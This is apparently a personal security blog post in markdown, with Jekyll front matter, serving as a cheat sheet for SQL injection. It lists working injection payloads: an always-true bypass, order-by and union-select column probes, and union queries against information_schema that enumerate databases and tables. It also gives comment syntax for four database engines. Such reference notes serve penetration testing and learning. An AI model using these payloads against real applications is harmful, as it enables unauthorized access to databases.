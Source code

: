 ```yaml
---
layout: single
title: SQL Injection
excerpt: "Deep dive into SQL Injection."
date: 2022-11-26
classes: wide
header:
  teaser: /assets/images/aws-logo.png
  teaser_home_page: true
  icon: /assets/images/aws-logo.png
categories:
  - InfoSec
tags: 
  - InfoSec
  - SQLI
---
```

## General Injections
`' or 1=1-- -`
`'order by 7'`
`' union select NULL,NULL,NULL-- -`
`category=Pets' union select schema_name, NULL from information_schema.schemata-- -`: List DBs
`category=Pets' union select table_name, NULL from information_schema.tables where table_schema='public'-- -`: List tables


## Comments

Oracle 	    --comment

Microsoft 	--comment
            /*comment*/

PostgreSQL 	--comment
            /*comment*/

MySQL 	    #comment
            -- comment [Note the space after the double dash]
